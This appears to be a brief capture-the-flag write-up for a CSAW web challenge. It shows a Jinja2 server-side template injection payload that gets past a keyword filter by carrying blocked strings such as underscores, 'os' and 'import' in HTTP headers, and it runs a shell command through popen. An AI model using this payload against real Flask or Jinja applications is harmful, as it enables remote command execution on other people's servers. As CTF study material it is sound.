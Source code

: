 * Jinja python SSTI
* Bypass a few keywords are required
```
Sorry, the following keywords/characters are not allowed :- _ ,config ,os, RUNCMD, base
```

* Final Payload to bypass the keyword check with headers
```
GET /submit?value={{request|attr('application')|attr((request.headers.score*2,'globals',request.headers.score*2)|join)|attr((request.headers.score*2,'getitem',request.headers.score*2)|join)((request.headers.score*2,'builtins',request.headers.score*2)|join)|attr((request.headers.score*2,'getitem',request.headers.score*2)|join)((request.headers.score*2,request.headers.imp,request.headers.score*2)|join)(request.headers.bypass)|attr('popen')('id')|attr('read')()}} HTTP/1.1
Host: web.chal.csaw.io:5000
Bypass: os
Score: _
Imp: import
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:92.0) Gecko/20100101 Firefox/92.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://web.chal.csaw.io:5000/
Upgrade-Insecure-Requests: 1
```

* references:
  - https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#jinja2---filter-bypass
  - https://0day.work/jinja2-template-injection-filter-bypasses/